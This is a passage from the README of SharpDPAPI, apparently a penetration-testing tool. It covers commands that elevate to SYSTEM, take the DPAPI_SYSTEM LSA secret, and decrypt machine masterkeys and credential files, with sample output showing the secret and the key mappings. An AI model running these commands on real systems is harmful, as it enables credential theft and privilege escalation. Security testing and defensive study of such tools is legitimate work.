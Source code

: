     -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA0WDgv/jH5HuATtPgQSBie5t...(snip)...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIFujCCBKKgAwIBAgITVQAAAJf6yKyhm5SBVwA...(snip)...
    -----END CERTIFICATE-----


#### triage

The **triage** command runs the user [credentials](#credentials), [vaults](#vaults), [rdg](#rdg), and [certificates](#certificates) commands.


### Machine Triage

#### machinemasterkeys

The **machinemasterkeys** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. It will return a set of masterkey {GUID}:SHA1 mappings.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinemasterkeys

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Masterkey File Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3


    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...



#### machinecredentials

The **machinecredentials** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Credential files.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinecredentials
